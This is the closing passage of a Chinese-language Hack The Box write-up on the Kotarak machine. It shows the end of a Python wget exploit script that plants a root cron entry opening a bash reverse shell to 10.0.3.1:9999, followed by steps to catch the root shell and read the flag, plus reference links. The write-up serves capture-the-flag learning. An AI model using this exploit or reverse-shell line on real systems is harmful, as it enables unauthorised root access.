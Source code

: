 ```python

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '10.0.3.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.0.3.1'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.0.3.1/9999 0>&1' \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
```

运行exp后过几分钟即可在`9999`端口接收到shell

![](HTB之Kotarak/image_JOY8R6gUW9.png)

查看权限为root，ip为`10.0.3.133`，查看flag即可

![](HTB之Kotarak/image_iHlr_XWoQx.png)

# 参考

[https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html#http---tcp-60000](https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html#http---tcp-60000 "https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html#http---tcp-60000")

[https://www.exploit-db.com/exploits/40064](https://www.exploit-db.com/exploits/40064 "https://www.exploit-db.com/exploits/40064")

https://www.youtube.com/watch?v=38e-sxPWiuY&t=1551s
